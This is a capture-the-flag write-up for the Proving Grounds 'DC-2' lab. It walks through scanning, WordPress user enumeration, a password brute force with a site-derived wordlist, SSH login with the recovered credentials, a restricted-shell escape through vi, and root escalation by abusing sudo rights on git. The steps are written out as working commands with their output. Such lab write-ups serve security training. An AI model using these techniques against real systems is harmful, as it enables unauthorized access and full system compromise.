 ```yaml
---
layout: default
title: DC-2
parent: Proving Grounds Play
nav_order: 6
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.194
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 14:36 EST
Nmap scan report for 192.168.160.194
Host is up (0.068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.69 seconds

```

# Enumeration

---

## 80 | HTTP

Attempting to navigate to the IP in the browser results in attempted redirect to _dc-2_

Need to make an entry in the _/etc/hosts_ file for _dc-2_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo vim /etc/hosts

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ cat /etc/hosts

192.168.160.194 dc-2

```

![index](../../../assets/images/ctfs/proving_grounds/dc-2/index.png)

Run _wpscan_ on the Wordpress site.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ wpscan --url http://dc-2 --disable-tls-checks --enumerate p --enumerate t --enumerate u

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured image
s. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'


[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

# Exploitation

---

Use Cewl to get a custom wordlist of the site

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ cewl http://dc-2 -m 5 -w cewl.txt 2>/dev/null


```

WPScan password attack with the enumerated users and _cewl_ password list.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ wpscan --url http://dc-2 --disable-tls-checks -U users.txt -P cewl.txt

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

We have valid login credentials for _jerry_ and _tom_
jerry:adipiscing
tom:parurient
{: .warn }

We can SSH to port 7744 as _tom_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ ssh tom@192.168.160.194 -p 7744
tom@192.168.160.194's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$
```

# Post-Exploitation

---

## Break out to /bin/bash Shell

We initially do not have the ability to run any commands and receive _rbash_ errors.

![error](../../../assets/images/ctfs/proving_grounds/dc-2/error.png)

We can overcome this by using _vi_ to break out to a _/bin/bash_ shell

```bash
tom@DC-2:~$ vi

# Set the "shell" variable in vi text  editor
:set shell=/bin/bash
return

# Call the "shell" variable to exit vi with a /bin/bash shell
:shell
return

# Export PATH to global distro paths
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

![set_shell](../../../assets/images/ctfs/proving_grounds/dc-2/set_shell.png)

![use_shell](../../../assets/images/ctfs/proving_grounds/dc-2/use_shell.png)

## Switch User to Jerry

```bash
# password = adipiscing; enumerated above
tom@DC-2:~$ su jerry
Password:

# export PATH
jerry@DC-2:/home/tom$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

## Check Sudo -l for Jerry

```bash
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

```

## Exploit SUDO Permissions on Git Binary (Privesc Through Pagination)

![sudo](../../../assets/images/ctfs/proving_grounds/dc-2/sudo.png)

```bash
jerry@DC-2:/home/tom$ sudo /usr/bin/git -p help config


# Break out of Git
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
